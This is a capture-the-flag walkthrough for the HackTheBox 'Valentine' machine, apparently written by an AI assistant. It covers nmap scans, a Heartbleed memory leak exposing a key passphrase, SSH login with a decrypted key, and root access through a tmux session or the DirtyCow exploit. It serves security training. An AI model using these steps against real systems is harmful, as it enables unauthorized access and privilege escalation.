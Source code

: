 ## 💘 HTB: Valentine Walkthrough

**Machine:** Valentine  
**Difficulty:** Easy  
**OS:** Linux  
**Author:** HackTheBox  

Valentine is an easy Linux box that demonstrates how memory leaks from vulnerabilities like Heartbleed can expose sensitive credentials. It requires a combination of exploit crafting, crypto handling, and privilege escalation via known Linux kernel exploits.

---

### 🔍 Recon & Enumeration

**Nmap Basic Scan:**
```bash
nmap -sC -sV -p- 10.10.10.79
```

Identified open ports:
- **80 [HTTP](HTTP)**: Apache/2.2.22 (Ubuntu)
- **443 (HTTPS)**: Vulnerable OpenSSL (Heartbleed, CVE-2014-0160)

**Nmap Vuln Scripts:**
```bash
nmap -p 80,443 --script vuln 10.10.10.79
```

Identified vulnerabilities:
- **Heartbleed (CVE-2014-0160)**
- **SSL POODLE (CVE-2014-3566)**
- **CCS Injection (CVE-2014-0224)**

Interesting directories:
- `/dev/`
- `/index/`

---

### 💔 Heartbleed Exploitation

Using a public Heartbleed exploit script, dump memory:

Search for base64 strings in the dump. One string found:
```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
Decoded:
```bash
heartbleedbelievethehype
```

---

### 📁 Web Directory Discovery

Accessing `/dev/`, locate a file named `hype_key` — an encrypted private key in hexdump format.

Steps:
```bash
xxd -r hype_key > hype.key
openssl rsa -in hype.key -out decrypted.key
```
When prompted, enter password: `heartbleedbelievethehype`

---

### 🔐 SSH Access

Attempt SSH with:
```bash
chmod 600 decrypted.key
ssh -i decrypted.key hype@10.10.10.79
```
If encountering `no mutual signature supported` error, use:
```bash
ssh -oPubkeyAcceptedAlgorithms=+ssh-rsa -i decrypted.key hype@10.10.10.79
```

---

### ⬆️ Privilege Escalation

#### Method 1: Tmux Session (Preferred)
- Check for running tmux sessions as root.
- Attach to existing root session:
```bash
tmux attach
```

#### Method 2: DirtyCow Kernel Exploit
- Upload `40839.c` to target
- Compile:
```bash
gcc 40839.c -o cowroot -pthread
```
- Execute to create root user `firefart`
- Switch user:
```bash
su firefart
```

---

### 🏁 Summary
- **Initial Access:** Exploit Heartbleed to extract passphrase
- **Lateral Movement:** Decrypt private SSH key for `hype`
- **Privilege Escalation:** Attach root tmux or use DirtyCow

---

Let me know if you'd like this turned into a PDF, or if you want visual diagrams for the two privilege escalation paths!

